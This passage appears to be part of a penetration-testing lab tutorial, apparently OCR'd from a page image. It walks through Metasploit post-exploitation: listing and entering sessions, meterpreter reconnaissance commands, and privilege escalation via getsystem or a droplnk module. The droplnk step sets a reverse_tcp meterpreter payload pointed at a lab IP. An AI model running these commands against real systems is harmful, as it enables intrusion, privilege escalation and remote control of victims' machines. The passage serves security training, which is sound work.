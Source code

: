  
 
- This will simulate a victim clicking on your malicious link and being exploited with a browser exploit.
 
 
###########################
# Client-Side Enumeration #
###########################
 
 
- You can list the active sessions by typing:
 
sessions -l
 
 
 
 
- You can "interact" with any active session by typing sessions -i 3 (replace 3 with the session number you want to interact with)
 
 
sessions -i 1
 
 
 
 
 
- You should now see Metasploit's meterpreter prompt.
 
 
********************************** Figure out who and where you are **********************************
 
meterpreter> sysinfo
 
 
meterpreter> getuid
 
 
meterpreter> ipconfig
 
 
meterpreter> run post/windows/gather/checkvm
 
 
meterpreter> run get_local_subnets
 
 
 
********************************** Escalate privileges and get hashes **********************************
 
 
meterpreter> use priv
 
 
--Option 1: GetSystem
meterpreter> getsystem
 
--Option 2:
meterpreter > run post/windows/escalate/getsystem
 
--Option 3:
meterpreter> background
back
use post/windows/escalate/droplnk
set SESSION 1
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.10.128                                            (Make sure you change this to your ubuntu ip address)
set LPORT 1234
exploit
 